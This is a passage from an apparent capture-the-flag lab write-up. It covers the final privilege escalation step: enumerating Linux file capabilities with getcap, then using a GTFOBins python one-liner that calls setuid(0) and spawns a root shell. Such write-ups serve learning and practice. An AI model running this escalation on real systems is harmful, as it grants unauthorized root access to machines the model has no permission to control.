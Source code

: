 We can find capabilties which a simple command in linux:

```bash
getcap -r / 2>/dev/null
```

Which yields

```
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

I wonder which one it is...

Navigating to `/home/kiba/.hackmeplease/python3` we can craft up a simple script from [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities) to gain root access.

```bash
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

And we are now root!

---

### Final thoughts

A super simple and straight-forward room. Recommended for beginners and can be an extra challenge to make it medium by designing the reverse-shell script yourself with regards to prototype pollution.

---

